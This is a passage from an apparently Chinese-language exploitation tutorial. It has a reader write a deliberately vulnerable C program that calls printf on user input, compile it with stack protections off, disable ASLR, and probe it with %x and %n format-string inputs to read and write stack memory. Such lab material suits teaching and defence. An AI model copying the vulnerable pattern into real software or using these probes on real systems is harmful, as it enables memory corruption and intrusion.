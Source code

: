以下是在 Linux 环境中创建利用格式字符串的利用脚本的步骤：

1.  首先，我们需要创建一个易受攻击的应用程序。因此，我们可以编写一个带有格式字符串漏洞的 C 文件。创建一个`fmt.c`文件并在编辑器中打开它。

2.  在其中添加以下代码并保存：

```
#include <stdio.h>  
int main(int argc, char **argv){ 
        char buf[1024]; 
        strcpy(buf, argv[1]); 
        printf(buf); 
        printf("\n"); 
} 
```

3.  我们需要在禁用格式安全性的情况下编译此代码。为此，请运行以下命令：

```
gcc fmt.c -w -g -Wno-format -Wno-format-security -fno-stack-protector -z norelro -z execstack -o fmt  
```

这将创建一个名为`fmt`的可执行文件。我们可以将其用作示例应用程序。

4.  确保在您的测试机器中禁用**地址空间布局随机化**（**ASLR**）：

```
sysctl -w kernel.randomize_va_space=0    
```

5.  现在，我们可以运行应用程序进行测试：

```
./fmt TEST    
```

这将打印传递给应用程序的参数

6.  然后，我们将使用格式字符串输入测试应用程序：

```
./fmt %x%x%x%x
./fmt %n%n%n%n  
```

![](../images/00113.jpeg)

这里，第一个测试从堆栈中打印一些十六进制值，但第二个测试将值写入内存中堆栈值指向的位置，最终导致分段错误。所以，从测试结果来看，很明显，我们可以从 RAM 中读取数据，也可以向 RAM 中写入数据。

7.  现在我们可以更改输入并尝试控制参数：

```
./fmt AAAA.%x.%x.%x.%x    
./fmt BBBB.%x.%x.%x.%x  
```

![](../images/00114.jpeg)

我们传递的字符`AAAA`和`BBBB`以十六进制值显示为堆栈上的第四个参数，如`AAAA`的`41414141`和`BBBB`的`42424242`。由此可以清楚地看出，我们现在可以控制堆栈上的第四个参数。
